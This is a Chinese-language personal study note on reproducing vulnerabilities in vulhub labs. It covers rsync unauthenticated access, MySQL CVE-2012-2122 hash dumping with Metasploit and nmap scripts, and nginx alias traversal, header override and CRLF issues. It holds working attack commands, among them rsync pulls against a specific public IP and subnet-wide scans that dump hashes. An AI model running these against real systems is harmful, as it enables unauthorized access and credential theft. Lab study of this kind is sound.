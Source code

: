 

# vulhub漏洞复现

[toc]


```shell
docker-compose up -d
docker-compose down
docker-compose restart nginx 
```

## TODO:common vulns

- [ ] https://www.cnblogs.com/huidou/p/10858261.html

- [ ] wp rce 

1. 有一些rce代码的限制
   https://vulhub.org/#/environments/wordpress/pwnscriptum/
   https://exploitbox.io/vuln/WordPress-Exploit-4-6-RCE-CODE-EXEC-CVE-2016-10033.html
   https://github.com/vulhub/vulhub/blob/master/wordpress/pwnscriptum/README.zh-cn.md

2. 需要用户发布文章的权限

   

   

## rsync未授权访问 873端口

```[cmd]
rsync rsync://210.14.136.172:873/  /localpath -av
rsync [ip]::
rsync rsync://210.14.136.172:873
```

ref:	https://my.oschina.net/ccLlinux/blog/1859116

**影响范围**

mysql CVE-2012-2122  msf-auxiliary/scanner/mysql/mysql_authbypass_hashdump
All MariaDB and MySQL versions up to 
5.1.61, 
5.2.11, 
5.3.5, 
*5.5.22* 
5.5.23	are	vulnerable.

*MySQL versions from 5.1.63, 5.5.24, 5.6.6 are not.*

*MariaDB versions from 5.1.62, 5.2.12, 5.3.6, 5.5.23 are not.*

**原理**
对于memcmp(a1,a2,10)，memcmp在两个字符串的\0之后继续比较,估计Haier有丶东西,	ref:	https://seclists.org/oss-sec/2012/q2/493

进msf, 因为中途退出了,第二次run提示"Host '-' is blocked because of many connection errors; unblock with 'mysqladmin flush-hosts'",提示ip被block了

![](IMG/res_mysql_hash_dump-1563094737649.jpg)

搜索网上的解法是 whereis mysqladmin, 再进到相应的目录实施它的提示命令,参看	https://www.cnblogs.com/susuyu/archive/2013/05/28/3104249.html

**利用**

1. msf

```
auxiliary/scanner/mysql/mysql_version
msf-auxiliary/scanner/mysql/mysql_authbypass_hashdump
```

2. zenmap
   建议先扫c段的MySQL,即按以下顺序来
   nmap -sV -p 3306 -T4 --script mysql-info [CIDR]
   nmap -sV -p 3306 -T2 --script ms-sql-dump-hashes,mysql-dump-hashes,mysql-info,mysql-vuln-cve2012-2122 [addr]
   直接开搞, 12分钟左右扫完一个c段

![](IMG/rsync_namp-1563094756987.jpg)

## nginx错误配置

```
https://vulhub.org/#/environments/nginx/insecure-configuration/
```

1. 别名alias配置时,如果忘记在目录名files后加/  ,会造成目录穿越,即

   ```php
   location	/files {
   alias /home/;
   }
   ```

   **payload:**

   `/files..`		会自动补全成为`/files../`,  可遍历根目录/下的文件	

2. add_header覆盖导致xss
   Nginx配置文件子块（server、location、if）中的add_header，将会覆盖父块中的add_header添加的HTTP头,使同源策略csp失效
   ``` add_header X-Frame-Options SAMEORIGIN; ```
   同源策略使得外站无法获取本站数据,如cookie,但无法制约src下的内容. 而CSP策略则是控制src内容的,代表只可加载其后的内容, 如

   > Content-Security-Policy: script-src 'self' https://apis.google.com	//self   表示与当前来源（而不是其子域）匹配

3. clrf注入漏洞

   这块有点概念, 但深入的利用没有很明白,  参考离别歌大兄弟的经验

   ref:	https://www.leavesongs.com/PENETRATION/Sina-CRLF-Injection.html

